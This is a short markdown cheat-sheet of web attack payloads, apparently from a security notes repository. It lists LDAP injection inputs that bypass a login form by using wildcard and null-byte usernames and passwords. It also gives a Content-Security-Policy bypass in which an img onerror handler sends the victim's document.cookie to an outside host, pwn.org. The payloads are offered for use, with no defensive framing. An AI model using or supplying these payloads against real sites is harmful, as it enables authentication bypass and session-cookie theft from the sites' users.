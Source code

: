 
# LDAP Injection

[ldap_injection](https://wiki.zenk-security.com/doku.php?id=failles_web:ldap_injection)

username: *))%00
password: whatever

username: *
password: *)(&

# Bypass Content-Security-Policy 'unsafe-inline'

using inline script tag : <script>/*some stuff*/</script> 
if its blocked we can just use : <img src onerror="location.href='//pwn.org/index.php?content='.concat(document.cookie);">